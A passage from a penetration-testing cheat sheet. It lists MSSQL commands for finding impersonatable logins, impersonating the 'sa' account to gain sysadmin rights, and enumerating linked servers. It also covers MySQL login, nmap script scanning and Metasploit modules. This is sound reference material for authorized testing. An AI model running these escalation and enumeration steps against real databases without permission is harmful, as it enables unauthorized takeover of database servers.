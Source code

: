Identify Users that We Can Impersonate

```
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```

Impersonating the SA User

```
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```

Identify linked Servers

```cmd-session
1> SELECT srvname, isremote FROM sysservers
2> GO
```

> Interesting modules in Metasploit

```
[msf] > auxiliary(scanner/mssql/mssql_login)

[msf] > auxiliary(admin/mssql/mssql_enum)
```



## MySQL

> Command syntax:

```
mysql -u <username> -p -h <IP>
```

If you have SSH access with a valid user, you can view the running processes. If the MySQL service is active on localhost, it can be accessed in the following manner:

```
user@kali:/$ mysql -p<password>
```

> Information gathering

```
sudo nmap <IP> -sV -sC -p3306 --script mysql*
```

> Detect version with Metasploit

```
msf> use auxiliary/scanner/mysql/mysql_version
```
